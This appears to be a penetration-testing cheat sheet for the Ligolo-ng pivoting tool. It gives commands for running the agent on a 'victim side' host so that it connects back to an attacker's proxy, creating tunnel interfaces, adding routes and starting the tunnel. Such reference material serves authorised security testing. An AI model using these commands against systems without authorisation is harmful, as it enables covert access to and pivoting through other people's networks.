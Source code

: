 Starts the Ligolo-ng proxy using a self-signed certificate. This listens for incoming agent connections and provides a SOCKS5 proxy.

## Ligolo-ng Agent (Victim Side)

### Start the Agent and Connect to the Proxy

```bash
./agent -connect $IP:$PORT -ignore-cert
```

Connects the agent to the attacker’s proxy server at `$IP:$PORT`. `-ignore-cert` is used if the proxy is using a self-signed certificate.

## Interface Management

### Create a Virtual Tunnel Interface

```bash
interface_create --name $INTERFACE_NAME
```

Creates a virtual interface (TUN device) that will be used for routing traffic through the tunnel.

### Delete the Virtual Interface

```bash
interface_delete --name $INTERFACE_NAME
```

Deletes the specified virtual tunnel interface.

## Route Management

### Add a Route via the Tunnel Interface

```bash
route_add --name $INTERFACE_NAME --route $INTERFACE
```

### Remove a Route

```bash
route_del --name $INTERFACE_NAME --route $INTERFACE
```

## Tunnel Control

### Start the Tunnel

```bash
tunnel_start --tun $INTERFACE_NAME
```
